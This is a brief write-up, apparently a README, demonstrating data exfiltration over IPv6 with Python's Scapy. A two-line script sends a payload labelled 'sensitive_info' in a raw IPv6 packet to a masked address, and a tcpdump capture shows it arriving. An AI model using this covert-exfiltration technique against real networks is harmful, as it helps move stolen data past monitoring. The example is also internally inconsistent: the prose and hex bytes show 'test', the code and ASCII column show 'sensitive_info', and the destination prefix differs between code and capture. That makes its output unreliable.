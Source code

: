 # Example of Exfiltration over IPv6 Using Scapy

Libraries like scapy for Python make it easier for developers to interact with networking abstractions at a higher level. 
For example, with only two lines of code we are able to send a crafted packet to an IPv6 endpoint:

```
from scapy.all import IPv6,Raw,send
send(IPv6(dst="XXXX:XXX:X:1663:7a8a:20ff:fe43:93d4")/Raw(load="sensitive_info"))
```

And sniffing on the other endpoint we can see the packet reaching its destination with the extra raw layer where we included the ‘test’ string:

```
# tcpdump -s0 -l -X -i eth0 'ip6 and not icmp6'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
23:47:15.996483 IP6 XXXX:XXX:X:1663::1ce > XXXX:XXX:X:1662:7a8a:20ff:fe43:93d4: no next header
        0x0000:  6000 0000 0004 3b3e XXXX XXXX XXXX 1663  `.....;>.......c
        0x0010:  0000 0000 0000 01ce XXXX XXXX XXXX 1662  ...............b
        0x0020:  7a8a 20ff fe43 93d4 7465 7374 0000       z....C..sensitive_info..
```
